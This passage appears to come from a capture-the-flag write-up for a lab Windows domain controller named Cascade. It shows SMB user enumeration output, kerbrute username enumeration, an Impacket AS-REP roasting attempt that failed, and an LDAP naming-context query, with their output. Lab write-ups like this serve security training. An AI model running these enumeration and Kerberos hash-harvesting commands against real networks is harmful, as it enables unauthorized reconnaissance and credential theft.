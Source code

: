```bash
SMB         10.10.10.182    445    CASC-DC1         1129: CASCADE\d.burman (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1130: CASCADE\BackupSvc (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1132: CASCADE\Factory (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1133: CASCADE\Finance (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1134: CASCADE\j.allen (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1135: CASCADE\i.croft (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1137: CASCADE\Audit Share (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1138: CASCADE\Data Share (SidTypeAlias)
```

## Kerberos Enumeration

Tested user list for valid names:

```bash
./kerbrute_linux_amd64 userenum --dc 10.10.10.182 -d cascade.local -o kerbrute-user-enum userlist

2024/06/15 13:31:00 >  [+] VALID USERNAME:       CASC-DC1$@cascade.local
2024/06/15 13:31:00 >  [+] VALID USERNAME:       arksvc@cascade.local
2024/06/15 13:31:00 >  [+] VALID USERNAME:       administrator@cascade.local
2024/06/15 13:31:00 >  [+] VALID USERNAME:       j.wakefield@cascade.local
2024/06/15 13:31:00 >  [+] VALID USERNAME:       util@cascade.local
2024/06/15 13:31:00 >  [+] VALID USERNAME:       s.smith@cascade.local
2024/06/15 13:31:00 >  [+] VALID USERNAME:       s.hickson@cascade.local
2024/06/15 13:31:00 >  [+] VALID USERNAME:       r.thompson@cascade.local
2024/06/15 13:31:05 >  [+] VALID USERNAME:       a.turnbull@cascade.local
2024/06/15 13:31:05 >  [+] VALID USERNAME:       j.goodhand@cascade.local
2024/06/15 13:31:05 >  [+] VALID USERNAME:       d.burman@cascade.local
2024/06/15 13:31:05 >  [+] VALID USERNAME:       BackupSvc@cascade.local
2024/06/15 13:31:05 >  [+] VALID USERNAME:       j.allen@cascade.local
```

Attempted ASREPRoasting with Impacket but this failed.

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py cascade.local/ -dc-ip 10.10.10.182 -usersfile userlist -no-pass -request -outputfile kerberos-users-found
```

## LDAP Enumeration

Get the base naming contexts via LDAP:

```bash
ldapsearch -x -H ldap://10.10.10.182 -s base namingcontexts

# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=cascade,DC=local
namingContexts: CN=Configuration,DC=cascade,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=cascade,DC=local
namingContexts: DC=DomainDnsZones,DC=cascade,DC=local
namingContexts: DC=ForestDnsZones,DC=cascade,DC=local

# search result
search: 2
result: 0 Success
```